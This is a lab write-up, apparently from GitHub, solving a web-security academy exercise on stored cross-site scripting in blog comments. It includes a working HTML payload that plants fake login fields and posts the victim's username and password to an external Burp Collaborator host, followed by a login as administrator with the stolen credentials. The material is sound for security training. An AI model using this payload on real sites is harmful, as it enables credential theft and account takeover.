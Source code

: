 # Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**NOTE**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

*Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.*

# Step 1 Find XSS vuln in comments function:

Adding a POC payload into a blog-post comment:

![image](https://user-images.githubusercontent.com/83407557/210614348-97de9160-9930-4c86-bfea-04c84d9521cc.png)

When I go back and view my comment, the page tries to print, verifying XSS:

![image](https://user-images.githubusercontent.com/83407557/210614535-9b0d9049-b482-451b-9375-3cc82d9e31b4.png)

# Step 2 Create a password stealing XSS payload

First I need to grab my collaborator's URL:

![image](https://user-images.githubusercontent.com/83407557/210614710-a6c10114-64e1-452b-a59d-bb52087ad3b4.png)

`c3gtx1iww0cl1k1q6psn1ue43v9mxel3.oastify.com`

Then I craft an XSS payload with this URL:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('c3gtx1iww0cl1k1q6psn1ue43v9mxel3.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

# Step 3 use payload in a comment

![image](https://user-images.githubusercontent.com/83407557/210622864-cd81f60d-2a5c-4669-87f0-65a4e901fb36.png)

# Step 4 poll collaborator

(Note, I had to restart the lab, but followed all the previous steps, new collaborator url= evdx8bp7ct0rnopijvg0b0wyyp4gs7gw.oastify.com). I see that my server got a POST request containing the username and password:

![image](https://user-images.githubusercontent.com/83407557/211015988-83b77bb8-3b9e-4b4f-a114-07c2e7d022fe.png)

# Step 5 login as administrator

With these creds I can login as admin:

![image](https://user-images.githubusercontent.com/83407557/211016155-48cce2a2-6362-4e03-a956-cd6acc311f7f.png)


Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/211016235-90678fac-22b6-4a13-9909-d2c655eae552.png)


